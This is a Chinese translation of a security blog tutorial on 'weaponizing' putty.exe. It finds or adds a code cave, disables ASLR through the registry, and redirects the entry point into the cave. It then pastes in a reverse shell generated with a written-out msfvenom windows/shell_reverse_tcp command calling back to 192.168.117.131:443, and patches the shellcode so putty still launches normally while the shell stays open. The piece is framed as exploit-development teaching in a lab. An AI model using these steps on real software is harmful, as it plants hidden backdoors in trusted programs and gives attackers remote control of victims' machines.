# [ExpDev]将您最喜欢的 PE 武器化—可移植的可执行漏洞利用

> 原文：<https://infosecwriteups.com/expdev-weaponizing-your-favorite-pe-portable-executable-exploit-c268c0c076c7?source=collection_archive---------0----------------------->


# TL；速度三角形定位法(dead reckoning)

嗨！欢迎来到我的博客。今天我将讨论如何一步一步地将一个合法的 PE ( [可移植可执行文件](https://en.wikipedia.org/wiki/Portable_Executable))武器化。我们将在现有的 PE 文件中添加一个反向 shell 有效负载，这样当它运行时，它将会给我们一个回调，同时执行它想要的程序。让我们开始吧。

# 设置

*   调试器([OllyDbg](http://www.ollydbg.de/download.htm)| |[immunity dbg](https://www.immunityinc.com/products/debugger/))
*   [LordPE](https://www.aldeid.com/wiki/LordPE) —体育编辑
*   [XVI32](https://xvi32.en.softonic.com/download) —十六进制编辑器
*   [Cave Miner](https://github.com/Antonin-Deniau/cave_miner) —在二进制文件中搜索代码洞穴的工具
*   你选择的 PE 文件(我将使用“[putty.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/releases/0.52.html)”)

# 代码洞穴

当你修改你的 PE 时需要知道的一件重要的事情是利用一个代码洞穴来存储你自己的代码。我们将使用这个代码洞穴将程序执行流程重定向到我们自己的代码，然后将其返回到原始流程，以完成正常的程序流程。此外，请记住，代码洞穴既可用于合法目的，也可用于恶意目的。所以，它并不总是用于坏事:)



图 1 —代码洞穴

有几种不同的方法可以找到您的代码洞穴:

*   [1]在现有 PE 中找到一个代码洞穴
*   [2]将您自己的代码 cave 添加到现有的 PE 中

让我演示一下这两种策略:

## [1]寻找密码洞穴

为此，我们将使用“ [Cave Miner](https://github.com/Antonin-Deniau/cave_miner) ”来识别“putty.exe”程序中可用的代码洞穴。

`# code_miner search --size=500 putty.exe`



图 2—[代码挖掘器]运行“代码挖掘器”

看来我们可以使用“下的密码洞穴”。从`00445CD5`的“地址”开始的“数据”部分。现在我们需要确保。数据段配置正确。我们希望启用以下属性:

*   可作为代码执行
*   易读的
*   可写的

为此，我们将使用“ [LordPE](https://www.aldeid.com/wiki/LordPE) ”来修改我们的“putty.exe”



图 3 — [LordPE]点击“PE 编辑器”



图 4 — [LordPE]选择“putty.exe”并点击“打开”



图 5 — [LordPE]点击“部分”



图 6 — [LordPE]“右击“开”。数据”并选择“编辑选择标题…”



图 7 — [LordPE]点击“…”



图 8 — [LordPE]确保这三项都被选中。然后点击“确定”



图 9 — [LordPE]点击“保存”并退出 LordPE

## [2]添加代码洞穴

为此，我们将使用“ [LordPE](https://www.aldeid.com/wiki/LordPE) ”和“ [XVI32](https://xvi32.en.softonic.com/download) ”在我们的 PE 中添加额外的代码洞穴空间。


图 10 — [LordPE]点击“PE 编辑器”


图 11 — [LordPE]选择“putty.exe”并点击“打开”


图 12 — [LordPE]点击“部分”



图 13 — [LordPE]“右击”并选择“添加节标题”



图 14 — [LordPE]”。NewSec“已创建



图 15 — [LordPE]“右击“开”。NewSec”并选择“编辑章节标题…”



图 16 — [LordPE]给每个“VirtualSize”和“RawSize”加 1，000，然后点击“…”


图 17 — [LordPE]确保这三项都被选中。然后点击“确定”



图 18 — [LordPE]确保“VSize”和“RSize”像上面一样更新，然后关闭窗口


图 19 — [LordPE]点击“保存”并退出 LordPE



图 20 — [Putty]当我们试图执行修改后的“putty.exe”时，它讨厌我们的修改…

因此，现在我们需要用空字节填充额外的 1000 个字节。为此，我们将使用“XVI32”:



图 21 — [XVI32]打开我们修改过的“putty.exe”



图 22 — [XVI32]移动到文件的底部，选择“编辑”下的“插入字符串…”



图 23 — [XVI32]为“十六进制字符串”添加“00 ”,为“十六进制”添加“$1000 ”,然后单击“确定”



图 24 — [XVI32]保存文件并退出“XVI32”



图 25 — [Putty]现在我们的“putty.exe”正常执行了

太好了。因此，我已经向您展示了如何在我们的 PE 中找到/添加代码洞穴的两种不同方法。对于这个演示，我将坚持使用第一种方法:**【1】寻找一个洞穴**。现在，让我们进入我们最喜欢的调试部分:)

# ASLR

等一下。我们不应该忘记现代的 Windows 机器都配置了 ASLR(地址空间布局随机化)。这将在我们每次执行 PE 时保持随机的内存地址。绕过 ASLR 是今天的主题，所以我们将禁用 ASLR。我在这个演示中使用的是 Windows 7，我们可以在“注册表”中禁用 ASLR

转到:

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management`

创建:

`MoveImages`

设置:

`DWORD`值为“0”



图 26 —在 Win7 中禁用 ASLR

最后，重启你的机器。

# 武器化 PE

在我讲述更多细节之前，让我总结一下这是如何工作的:

*   将 PE 文件的开头编辑到 JMP 到我们的代码洞穴中
*   PUSHAD(所有通用寄存器双字)—将所有八(8)个 32 位通用寄存器保存到堆栈上
*   PUSHFD(标志 DWORD) —保存 EFLAGS 值
*   添加反向外壳
*   堆栈对齐(ESP)
*   POPFD —恢复 EFLAGS 值
*   POPAD —恢复寄存器值
*   返回到 PE 文件的开头，完成原来的执行过程

## JMP 到代码洞穴

我们开始吧。我们现在用“OllyDbg”打开我们的“putty.exe ”(建议以“管理员”身份打开调试器，以避免不必要的警告),并保存前几行以供以后恢复之用。



图 27 — [OllyDbg]保存选定的地址和汇编代码

```
00433E0C >   55             PUSH EBP
00433E0D     8BEC           MOV EBP,ESP
00433E0F     6A FF          PUSH -1
00433E11   . 68 F80C4400    PUSH putty.00440CF8
00433E16   . 68 C0864300    PUSH putty.004386C0
```

如前所述，我们将使用从第一种方法中找到的代码洞穴地址， **[1]找到代码洞穴**，，即`00445CD5`。然而，我们将使用一个地址`00445CD6`(在我们的代码 cave 入口点之后的一个地址)来开始我们的外壳代码。

使用 OllyDbg，让我们将`00433E0C PUSH EBP` 改为`JMP 00445CD6`,以便重定向我们的执行流，指向我们的代码洞穴的位置，而不是正常执行。



图 28 — [OllyDbg]更改调试程序中的代码



图 29 — [OllyDbg] JMP 00445CD6

并将修改后的文件的当前版本作为可执行文件保存到“putty-01.exe”，保存每个阶段便于我们做进一步的调试。



图 30 — [OllyDbg]突出显示修改的部分，“右键单击”，“复制到可执行文件”并单击“选择”



图 31 — [OllyDbg]“右击”并选择“保存文件”



图 32 — [OllyDbg]输入文件名并点击“保存”

我们现在可以打开“putty-01.exe”用 OllyDbg 做进一步的修改过程。



图 33 — [OllyDbg]打开“putty-01.exe”

如你所见，我们的起始地址`00433E0C`现在改成了`JMP 00445CD6`。完美。按`F7`跟随执行流程。



图 34 — [OllyDbg] "putty-01.exe "



图 35 — [OllyDbg]按下 F7 进入我们的代码洞穴

## 代码洞穴魔法

是时候将以下执行流添加到代码洞穴中了:

```
PUSHAD - Save the register values
PUSHFD - Save the flag values
<-- Reverse Shell -->
<-- Stack Alignment (ESP) -->
POPFD - Restore the flag values
POPAD - Restore the register values
<-- Return to the original function -->
```



图 36[OllyDbg]-添加“PUSHAD”和“PUSHFD”

让我们创建一个十六进制格式的“msfvenom”反向外壳:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.117.131 LPORT=443 -f hex
```



图 37 — [msfvenom]反向外壳负载

为了添加创建的“msfvenom”有效负载，我们需要在代码 cave 中突出足够的空间，并将其作为“二进制粘贴”进行粘贴。



图 38 — [OllyDbg]将“msfvenom”有效负载复制并粘贴到代码洞穴中



图 39 — [OllyDbg]添加了反向外壳有效负载

让我们将文件的当前版本保存为“puttey-02.exe”。现在，我们需要进行堆栈对齐，以使 ESP 在执行后返回到反向 shell shellcode 代码的开头。简单来说:



图 40 —堆栈对齐

外壳代码开头的 ESP =`0018FF68`



图 41-外壳代码的开始

外壳代码= `0018FD64`末尾的 ESP



图 42 — [OllyDbg]外壳代码结束

计算这两(2)个 ESP 值之间的差值:

*   `0018FF68` — `0018FD64` = 204


图 43—[计算]

现在，我们需要完成剩余的执行流程。然后将文件的当前版本保存为“putty-03.exe”



图 44 — [OllyDbg]完成执行流程

## 反壳？

让我们看看我们的武器化 PE 是否如预期的那样工作…



图 45 — [putty]我们快到了吗？



图 46 —从“putty-03.exe”反转外壳

太好了！我们能够从 Window 7 机器获得到我的 Kali Linux 的反向 shell 连接…等等…“putty . exe”没有运行。好吧，这是因为“msfvenom”的`WaitForSingleObject`功能阻止了下一步的运行，直到当前的反向 shell 连接退出。换句话说，我们不会看到“putty.exe ”,直到我们杀死我们的反向外壳。

## 反向外壳+Putty.exe

为了解决这个问题，我们可以在外壳代码中找到`dwMilliseconds`参数值，并将其从“-1”更改为“0”但是更简单的方法是，我们可以找到最后一个`DEC ESI`代码，并将其更改为`NOP`。然后将文件的当前版本保存为“putty-04.exe”

